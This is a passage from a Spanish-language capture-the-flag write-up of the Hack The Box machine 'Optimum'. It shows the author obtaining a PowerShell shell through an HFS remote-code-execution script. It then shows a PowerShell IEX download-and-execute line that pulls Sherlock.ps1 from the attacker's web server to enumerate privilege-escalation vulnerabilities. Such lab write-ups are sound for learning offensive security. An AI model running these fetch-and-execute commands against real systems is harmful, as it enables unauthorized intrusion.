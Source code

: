 ```bash
❱ python3 hfsRCE.py
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6bash_scriptPY_kostasRevSH_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PEEEEEEEEEEEEEEEERFECTIIIIIIIIIIiii11isadifjoasdifjSIMOOOOOOOoo, tenemos una **PowerShell** en el sistema como el usuario `kostas` (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Después de estar en un laberinto suuuuuuuper largo finalmente conseguimos explotar esta vaina.

Enumerando el sistema vemos que podemos ejecutar `systeminfo`, aprovechemos las muuuuuuchas herramientas que existen para ver si el kernel o la versión del SO tiene alguna vulnerabilidad.

* [Apoyados en esta guía de **PrivEsc** caemos en nuestro siguiente recurso](https://oscp.securable.nl/privilege-escalation).

El que nos muestra unos resultados sencillos y directos es [Sherlock](https://github.com/rasta-mouse/Sherlock) (que ya esta obsoleto, pero sigue funcionando), **Sherlock** es un script de `PowerShell` que busca vulnerabilidades relacionadas con "parches" del sistema.

Entonces, podemos ya sea, descargar el archivo, subirlo e importar su función principal llamada `Find-AllVulns` (si revisas el código la vez) oooooooo simplemente descargarlo, levantar un servidor **web** y desde la consola de **PowerShell** indicarle que cargue un módulo (el contenido) de x URL (nuestro script de `Sherlock.ps1`), hagamos esta última:

* [https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1).

Levantamos servidor web donde esté el archivo:

```bash
❱ python3 -m http.server
```

Y ahora desde la **PS** indicamos:

```powershell
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.2:8000/Sherlock.ps1')
```

Ya el contenido del script estaría importado como un **módulo** en el sistema, nos quedaría llamarlo:

```powershell
PS C:\\Users\kostas\Videos> Find-AllVulns
```

De los resultados que arroja detallamos estos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6bash_kostasSH_SherlockREPORT.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Existen 3 vulnerabilidades que parecen afectar el sistema, pues empecemos a profundizar a ver...

---